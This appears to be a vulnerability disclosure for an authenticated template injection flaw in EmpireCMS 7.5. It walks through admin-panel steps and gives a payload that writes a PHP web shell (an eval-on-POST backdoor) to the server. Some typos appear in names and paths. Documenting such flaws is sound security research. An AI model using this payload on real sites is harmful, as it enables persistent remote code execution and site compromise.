 # EmpireCMS-Getshell

### Introduction to EmpireCMS 

EmpireCMS is an open-source content management system (CMS).

download link：http://www.phome.net/downcenter/empirecms/ecms75/download/EmpireCMS_7.5_SC_UTF8.zip

### Vulnerability description

EmpireCMS v7.5 has a template injection vulnerability. An authenticated remote attacker can exploit this vulnerability to inject malicious content through the PreviewIndexpage class in e/class/tempfun.php, thereby getting the shell.

### vulnerability analysis

The vulnerability exists in line 425 of tmepfun. Due to the lack of effective validation of the parameter content passed in by the frontend, malicious content can be referenced and generate an index page template file, resulting in malicious content being written

![image-20240730103644857](EmpireCMS-Getshell.assets/image-20240730103644857.png)

### Vulnerability reproduction

1、Log in to the backend  -> check "模板" -> "管理首页方案" -> Modify template content:

```
Vulnerability verification POC ：<?php phpinf0(); ?>
```

![image-20240730104109557](EmpireCMS-Getshell.assets/image-20240730104109557.png)

2、After submitting, click "预览"：

![image-20240730104436737](EmpireCMS-Getshell.assets/image-20240730104436737.png)

The injected malicious content is referenced and executed：

![image-20240730104534523](EmpireCMS-Getshell.assets/image-20240730104534523.png)

3、The server generates indexpage temporary file，The path is：/e/data/tmp/indexpage{tempid}.php

![image-20240730104922561](EmpireCMS-Getshell.assets/image-20240730104922561.png)

4、POC and change to：

```
test <?php fputs(fopen('shell.php','w'),'<?php eval($_POST[9527])?>');?>
```

Automatically generate shell.chp in e/admin

![image-20240730110245130](EmpireCMS-Getshell.assets/image-20240730110245130.png)



![image-20240730110005192](EmpireCMS-Getshell.assets/image-20240730110005192.png)
